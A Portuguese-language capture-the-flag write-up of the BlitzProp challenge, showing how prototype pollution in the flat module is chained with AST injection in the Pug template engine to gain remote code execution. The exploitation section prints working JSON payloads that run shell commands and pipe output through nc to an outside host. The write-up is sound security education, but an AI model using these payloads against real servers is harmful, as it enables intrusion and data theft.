 ```yaml
---
layout: post
title: "BlitzProp - Cyber Apocalypse CTF 2021"
date: 2021-04-25 17:00:00 -0300
categories: CyberApocalypse
---
```

## Resumo

![img](/assets/BlitzProp/1.png)

BlitzProp foi um desafio do CTF Cyber Apocalypse realizado pelo Hack The Box e Crypto Hack, envolveu vulnerabilidades como Prototype Pollution, que possibilita o AST Injection e evolui para RCE.

## Recon
O desafio permitia o download do código fonte da aplicação, que utilizava como backend nodejs, as seguintes dependências existiam para o funcionamento da aplicação:

![img](/assets/BlitzProp/2.png)

O módulo flat permite a transformação de um objeto javascript em JSON e vice-versa. Abaixo um exemplo da função *unflatten*, utilizada na aplicação.

``` js
var unflatten = require('flat').unflatten
unflatten({
 'three.levels.deep': 42,
 'three.levels': {
 nested: true
 }
})

// {
// 		three: {
// 			levels: {
// 					deep: 42,
// 					nested: true
// 					}
// 				}
// }
```

Já a dependência Pug se trata de um *template engine*, que permite concatenar tags HTMLs junto do código javascript, para renderizar um template pré-definido.

```html
<!--
doctype html
html(lang\="en")
  head
    title\= pageTitle
    script(type\='text/javascript').
      if (foo) bar(1 + 5)
  body
    h1 Pug - node template engine
    #container.col
      if youAreUsingPug
        p You are amazing
      else
        p Get on it!
      p.
        Pug is a terse and simple templating language with a
        strong focus on performance and powerful features.
-->
 
<!-- Se torna: --> 

<!DOCTYPE html\>
<html lang\="en"\>
  <head\>
    <title\>Pug</title\>
    <script type\="text/javascript"\>
      if (foo) bar(1 + 5)
    </script\>
  </head\>
  <body\>
    <h1\>Pug - node template engine</h1\>
    <div id\="container" class\="col"\>
      <p\>You are amazing</p\>
      <p\>Pug is a terse and simple templating language with a strong focus on performance and powerful features.</p\>
    </div\>
  </body\>
</html\>
```

Como podemos visualizar no código abaixo, a aplicação recebe nosso corpo da requisição POST, aplica o *unflatten* nesta requisição e após isso compara com algumas das opções pré-definidas.
Caso a string recebida no corpo da requisição estivesse dentro da comparação, o módulo *pug* é chamado para realizar um template para a resposta.

![img](/assets/BlitzProp/3.png)

Podemos perceber que não há nenhuma função que rejeite a entrada de dados por parte da API, ou seja, ela recebe o body da requisição e acaba o processando.

## Exploitation
Como toda avaliação de segurança, após o reconhecimento da aplicação é necessário realizar o levantamento de vulnerabilidades. Conforme anotado na sessão de reconhecimento, temos as dependências *Pug* na versão **3.0.0** e a dependência *Flat* na versão **5.0.0**.
Um dos melhores sites para pesquisar por vulnerabilidades em pacotes npm é o [snik.io](https://snyk.io/vuln/npm:flat@5.0.0), procurando pela versão do flat, é possível identificar que o mesmo é vulnerável a prototype pollution.

![img](/assets/BlitzProp/4.png)

[Prototype pollution é uma vulnerabilidade que afeta o javascript, se trata da capacidade de um agente malicioso injetar propriedades dentro de objetos.](https://github.com/Kirill89/prototype-pollution-explained) O Javascript permite que todos os atributos de objetos possam ser alterados, incluindo os seus atributos principais como *\_\_proto\_\_*, *constructor* e *prototype*.

Deste modo, para verificar se o módulo da API estava realmente vulnerável, enviei uma requisição JSON alterando o atributo song.name para que retornasse sempre verdadeiro.

![img](/assets/BlitzProp/5.png)

Após esta requisição, todas as requisições para API retornam a compilação do template, comprovando a vulnerabilidade. 
Avaliando a vulnerabilidade do módulo flat, comecei a procurar por vulnerabilidades relacionadas com a dependência pug, foi onde encontrei uma [vulnerabilidade de RCE](https://snyk.io/vuln/SNYK-JS-PUG-1071616), que permite uma execução de comandos caso seja possível controlar a opção *pretty* do compilador do pug. Porém, não se encaixa na nossa aplicação pois esta opção não é utilizada.
Pesquisando um pouco mais, foi possível encontrar este excelente [artigo](https://blog.p6.is/AST-Injection/) que entrelaça a vulnerabilidade de Prototype Pollution com AST-Injection, desencadeando um RCE em mecanismos de template como o pug, mostrado no artigo.
[Abstract Syntax Trees (ASTs)](https://www.twilio.com/blog/abstract-syntax-trees) é a representação de código em árvore, são uma parte fundamental da maneira que um compilador trabalha. 
Dessa forma, podemos realizar uma injeção de AST via prototype pollution, fazendo com que o compilador execute nosso código malicioso.  
De acordo com este [artigo](https://blog.p6.is/AST-Injection/), podemos realizar a injeção do código malicioso no compilador do pug, por meio do objeto *block* realizamos a alteração de uma variável de debug chamada *pug_debug_line* com o código abaixo: 

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "Alterar pug_debug_line"

	}

   }

```

Enviando a requisição acima acarreta na alteração do objeto e variável do compilador do pug, fazendo com que o texto contido em "line" seja processado. Por meio dessa poluição, conseguimos injetar um código malicioso e gerar execução remota de comandos no servidor, por meio do código abaixo:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`ls | nc [REDACTED] 12562`)"

	}

   }

```

E dessa forma conseguimos visualizar o nome da flag da challenge.

![img](/assets/BlitzProp/6.png)

Enviamos outra requisição:

```json
{

	"__proto__.block": {

	 "type": "Text",

	 "line": "process.mainModule.require('child_process').execSync(`cat flagYO1AC | nc [REDACTED] 12562`)"

	}

   }

```

E voa-lá, desafio concluído!

![img](/assets/BlitzProp/7.png)

## Considerações Finais

Podemos perceber por meio deste desafio como a vulnerabilidade de prototype pollution pode ser perigosa para muitas aplicações, pois consegue interagir diretamente com todos os objetos. Este tipo de falha começa a ficar cada vez mais comum visto a ampla adoção de frameworks javascript e typescript no mercado.
